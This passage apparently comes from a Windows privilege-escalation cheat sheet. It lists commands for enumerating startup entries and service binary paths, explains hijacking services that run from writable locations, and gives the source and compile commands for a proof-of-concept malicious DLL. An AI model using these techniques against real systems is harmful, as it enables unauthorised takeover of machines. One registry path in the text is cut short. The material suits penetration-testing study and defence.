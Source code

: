 Startup tasks

```powershell
wmic startup get caption,command
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\R
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce
dir "C:\Documents and Settings\All Users\Start Menu\Programs\Startup"
dir "C:\Documents and Settings\%username%\Start Menu\Programs\Startup"
```

## EoP - Incorrect permissions in services

> A service running as Administrator/SYSTEM with incorrect file permissions might allow EoP. You can replace the binary, restart the service and get system.

Often, services are pointing to writeable locations:
- Orphaned installs, not installed anymore but still exist in startup
- DLL Hijacking
    ```powershell
    # find missing DLL 
    - Find-PathDLLHijack PowerUp.ps1
    - Process Monitor : check for "Name Not Found"

    # compile a malicious dll
    - For x64 compile with: "x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll"
    - For x86 compile with: "i686-w64-mingw32-gcc windows_dll.c -shared -o output.dll"

    # content of windows_dll.c
    #include <windows.h>
    BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
        if (dwReason == DLL_PROCESS_ATTACH) {
            system("cmd.exe /k whoami > C:\\Windows\\Temp\\dll.txt");
            ExitProcess(0);
        }
        return TRUE;
    }
    ```

- PATH directories with weak permissions

```powershell
$ for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> c:\windows\temp\permissions.txt
$ for /f eol^=^"^ delims^=^" %a in (c:\windows\temp\permissions.txt) do cmd.exe /c icacls "%a"

$ sc query state=all | findstr "SERVICE_NAME:" >> Servicenames.txt
FOR /F %i in (Servicenames.txt) DO echo %i
type Servicenames.txt
FOR /F "tokens=2 delims= " %i in (Servicenames.txt) DO @echo %i >> services.txt
FOR /F %i in (services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> path.txt
```
